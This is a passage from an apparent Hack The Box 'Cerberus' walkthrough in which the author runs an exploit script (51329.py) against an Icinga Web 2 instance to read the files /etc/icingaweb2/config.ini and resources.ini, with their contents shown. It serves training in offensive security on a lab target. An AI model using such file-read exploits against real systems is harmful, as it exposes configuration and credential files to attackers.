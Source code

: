 ![](attachments/cerberus_2.png)

It's giving me a direct hint of the path : `/etc/icingaweb2`
Let's read configuration files listed here.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python 51329.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/config.ini
[global]
show_stacktraces = "1"
show_application_state_messages = "1"
config_backend = "db"
config_resource = "icingaweb2"
module_path = "/usr/share/icingaweb2/modules/"

[logging]
log = "syslog"
level = "ERROR"
application = "icingaweb2"
facility = "user"

[themes]

[authentication]


┌──(kali㉿kali)-[~/htb]
└─$ python 51329.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/resources.ini
[icingaweb2]
type = "db"
db = "mysql"
```